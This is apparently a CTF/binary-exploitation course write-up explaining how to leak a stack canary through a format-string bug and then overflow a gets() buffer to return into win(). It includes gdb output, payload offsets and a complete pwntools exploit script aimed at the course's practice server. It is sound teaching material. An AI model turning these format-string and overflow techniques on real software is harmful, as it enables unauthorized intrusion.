 ```yaml
---
description: Leaking a stack canary to allow for buffer overflows.
---
```


# canary

{% file src="../../.gitbook/assets/canary.zip" %}

This problem is the first instance where the stack protector, called the **canary** is enabled. We need to figure out how to beat that canary to perform a buffer overflow.

When we run `checksec` on the binary, we notice that the canary is enabled.

```bash
[*] '/home/joybuzzer/Documents/vunrotc/public/binex/04-canaries/canary/src/canary'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

PIE is still disabled, meaning we can still use the same techniques we used in the previous binary. However, we can't use the same techniques to overflow the stack. Let's see what happens when we try to overflow the stack.

```bash
$ python -c "print('A'*1000)" | ./canary
Hello, what is your name?
...
How can I help you today?
*** stack smashing detected ***: terminated
zsh: done                           python3 -c "print('A' * 1000)" | 
zsh: IOT instruction (core dumped)  ./canary
```

A **stack smashing detected** statement in the output indicates that we overwrote the canary. We need to determine how to beat the canary, and then we will proceed as usual.

### Static Analysis

It seems that our primary functions are `main`, `read_in`, and `win`.

* `win` seems only to print the contents of the flag.
* `main` immediately calls `read_in`, then has a `puts` statement. We can use `gdb` to show that reads "You lose!".

`read_in` does a list of things, so let's break it down further. Checking the arguments as we scroll through `gdb`:

*   `puts("Hello, what is your name?")`

    ```as
    puts@plt (
      [sp + 0x0] = 0x0804a008 → "Hello, what is your name?"
    )
    ```
*   `gets(ebp-0x4c)`

    ```as
    gets@plt (
     [sp + 0x0] = 0xffffd54c → 0xf7fc66d0 → 0x0000000e
    )
    ```
*   `printf(ebp-0x4c)`

    ```as
    printf@plt (
     [sp + 0x0] = 0xffffd54c → 0xf7006968 ("hi"?)
    )
    ```
*   `puts("How can I help you today?")`

    ```as
    puts@plt (
     [sp + 0x0] = 0x0804a023 → "How can I help you today?"
    )
    ```
*   `gets(ebp-0x4c)`

    ```as
    gets@plt (
     [sp + 0x0] = 0xffffd54c → 0xf7006968 ("hi"?)
    )
    ```

After this last check, we see that the canary check is made:

```as
0x08049283 <+189>:	mov    eax,DWORD PTR [ebp-0xc]
0x08049286 <+192>:	sub    eax,DWORD PTR gs:0x14
0x0804928d <+199>:	je     0x8049294 <read_in+206>
0x0804928f <+201>:	call   0x8049310 <__stack_chk_fail_local>
```

From this, we gather a few things:

* We write to the same buffer both times that we write to memory.
* The format string vulnerability in the first read means we can leak the canary.
* The existence of a second read means we can pass in a second payload that uses the canary to pass the check, then performs a buffer overflow.
* The canary is stored at `ebp-0xc`.

### Payload Part 1: Leaking the Canary

We know the canary is stored on the stack at `ebp-0xc`. We will use a format string to leak the canary to standard output and then pass that canary to the second payload.

There are two ways to find the offset on the stack that the canary is stored at:

1. Use `gdb` to set a breakpoint before the `gets` call, then count the number of DWORD frames between the stack pointer and canary.
2. Check the location of the stack pointer at the start of the `read_in` function, account for the number of operations on the stack pointer, then count the number of DWORD frames between the stack pointer and canary.

The first one is by far easier and more practical.

{% tabs %}
{% tab title="GDB" %}
```as
gef➤  canary
[+] The canary of process 44910 is at 0xffffd80b, value is 0x8fdba200
gef➤  x/40wx $esp
0xffffd530:	0xffffd54c	0x00000001	0xf7ffda40	0x080491d2
0xffffd540:	0xf7fc4540	0xffffffff	0x08048034	0xf7fc66d0
0xffffd550:	0xf7ffd608	0x00000020	0x00000000	0xffffd750
0xffffd560:	0x00000000	0x00000000	0x01000000	0x0000000b
0xffffd570:	0xf7fc4540	0x00000000	0xf7c184be	0xf7e2a054
0xffffd580:	0xf7fbe4a0	0xf7fd6f80	0xf7c184be	0x8fdba200
0xffffd590:	0xffffd5d0	0x0804c000	0xffffd5a8	0x080492b8
0xffffd5a0:	0xffffd5c0	0xf7e2a000	0xf7ffd020	0xf7c21519
0xffffd5b0:	0xffffd82e	0x00000070	0xf7ffd000	0xf7c21519
0xffffd5c0:	0x00000001	0xffffd674	0xffffd67c	0xffffd5e0
```
{% endtab %}

{% tab title="Radare2" %}

{% endtab %}
{% endtabs %}

`gdb` tells us that the canary is at `0xffffd80b`. If we count from our location to the canary, we see that it is 23 DWORDs away. We can verify this using the format string:

```bash
$ ./canary
Hello, what is your name?
%23$x
6de5f500
```

This appears to work! Let's turn this into a `pwntools` script:

```python
p.recvline()
p.sendline(b'%23$x')
canary = int(p.recvline().strip(), 16)
```

### Payload Part 2: Overflowing the Buffer

Now that we have the canary, we can overflow the buffer. We need to do this in two steps:

1. Write data until we reach the canary, then write the canary to the stack (so it doesn't get modified).
2. Write data from the canary to the return pointer, then overwrite the return pointer with the address of `win()`.

We discussed earlier that the canary is stored at `ebp-0xc`. Based on the argument passed to `gets()`, we start writing at `ebp-0x4c`. This means we need to write `0x40=64` bytes of data before reaching the canary.

Our payload here could look like this:

```python
payload = b'A' * 0x40
payload += p32(canary)
```

Then, we need to write from the canary to the return pointer. The canary sits at `ebp-0xc`, and the return pointer always sits at `ebp+0x4` (because the base pointer is at `ebp+0x0`). Remember that the canary takes four bytes itself, meaning we start to write at `ebp-0x8`. This means we need to write `0xc` bytes of data to reach the return pointer.

Our payload here could look like this:

```python
payload += b'B' * 0xc
payload += p32(win)
```

{% hint style="warning" %}
#### _Why did I use "B" this time?_

I can use any value to fill the empty space. I choose to use a different value for debugging purposes. In the case that my payload is wrong, it's easier to tell if I overfilled or underfilled the buffer by using two different values.
{% endhint %}

From here, we put it all together into one large payload and send it off!

{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *

proc = remote('vunrotc.cole-ellis.com', 4100)

# leak the canary
payload = b'%23$p'
print(proc.recvline())
proc.sendline(payload)

# get output to store the canary
leak = proc.recvline().strip()
leak = int(leak.decode(), 16)
print(proc.recvline())

print("Canary Leaked:", hex(leak))

# build the payload with the canary
payload = b'A' * 0x40
payload += p32(leak)
payload += b'A' * 0xc
payload += p32(0x080492d9)

proc.sendline(payload)
proc.interactive()
```
{% endcode %}

Running this gets us our flag.
